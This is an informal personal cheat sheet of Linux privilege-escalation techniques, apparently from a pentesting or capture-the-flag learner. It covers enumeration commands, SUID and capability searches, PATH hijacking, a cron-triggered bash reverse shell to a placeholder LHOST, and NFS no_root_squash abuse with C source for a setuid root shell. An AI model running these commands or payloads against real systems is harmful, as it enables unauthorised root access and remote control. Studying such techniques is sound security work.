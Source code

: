 Notes on privilege esc - might be formatted later (probably not)

extremely useful
curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems - https://gtfobins.github.io/#
exploit-db - https://www.exploit-db.com/

0. Enumeration

automaded enum examples:
[LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
[LinEnum](https://github.com/rebootuser/LinEnum)
[LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
[Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
[Linux Priv Checker](https://github.com/linted/linuxprivchecker)

hostname
/proc/version - info about system processes
/etc/issue - info about OS
ps -A - all running processes
ps axjf - view process trree
ps aux - processes for all users
env - environmental variables
sudo -l
ls -l
id
/etc/passwd
/etc/shadow
history
ifconfig
netstat -a - all listening ports and established connections
        -at or netstat -au - lists TCP/UDP respectively
        -l - lists ports in listening mode
        -s - network usage statistics
        -t - connections with service name and PID
        -i - interface stats
        -ano - display all sockets, do not resolve names, do not display timers
find writable folders        
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null

find world-executable folders
find / -perm -o x -type d 2>/dev/null

find development tools and supported languages
find / -name perl*
find / -name python*
find / -name gcc*

find files with SUID bit
find / -perm -u=s -type f 2>/dev/null

1. Kernel Exploits

2. Sudo
sudo -l

3. SUID
find / -type f -perm -04000 -ls 2>/dev/null    -   will list files that have SUID or SGID bits set

4. Capabilities
getcap -r / 2>/dev/null

5. Cron Jobs
/etc/crontab

reverse shell example invoked with cron
#!/bin/bash
bash -i >& /dev/tcp/LHOST/LPORT 0>&1

6. PATH - in Linux is an environmental variable that tells the operating system where to search for executables.
What folders are located under $PATH
Does your current user have write privileges for any of these folders?
Can you modify $PATH?
Is there a script/application you can start that will be affected by this vulnerability?

find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u

to add /tmp to PATH:
export PATH=/tmp:$PATH

7. NFS - Network File Sharing
/etc/exports - holds NFS
If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

enumerate mountable shares
showmount -e RHOST

mount the vuln share to our attacking machine 

mkdir /tmp/backuponattackermachine
mount -o rw RHOST:/backup /tmp/backuponattackermachine

and build exec in the share

int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
 }

compile the file

gcc nfs.c -o nfs -w

set the SUID bit

chmod +s nfs
